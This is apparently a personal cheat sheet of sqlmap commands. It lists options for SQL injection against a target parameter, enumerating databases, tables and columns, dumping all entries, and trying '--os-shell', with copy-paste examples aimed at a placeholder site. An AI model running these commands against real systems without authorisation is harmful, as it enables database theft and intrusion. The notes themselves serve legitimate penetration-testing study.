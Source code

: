 # Commands of sqlmap I used so far

## Breif used options

- `-r <requestfile>` uses burp request file to attack the parameter
- `-u <url>` is for selecting the url of the target host {Have to provide with url parameters if using }
- `-p` <parameterName> is for setting the parameter to attack
- `--dbms=<DBMS>` is used for specifying the target dbms {Will test payloads for only the selected dbms}
- `--level <1-5>` specify how many sql strings to be tested. 1-5
- `--dump-all` dumps the table entry of the entire database
- `--dbs` Show all the databases inside the dbms
- `-D <database>` specify the database to enumerate after exploitation
- `-T <tablename>` specify the table to enumerate
- `-C <columnName>` specify the column to enumerate
- `--os-shell` try to gain an interactive os shell

## Examples to copy paste

- `sqlmap -u https://testsite.com/page.php?id=7 --dbs`
  - `-D <database_name>` Selects the database name
- `sqlmap -r req.txt -p <vulnerable_parameter> --dbs`
  - `--dbs` for enumerating database

## Extracting data from database

- `sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`
  - `-D <databasename>` Selects the database to attack and retrieve tables
- `sqlmap -r req.txt -D <database_name> -T <table_name> --columns`
  - `--dump` dumps the database entries of the selected database
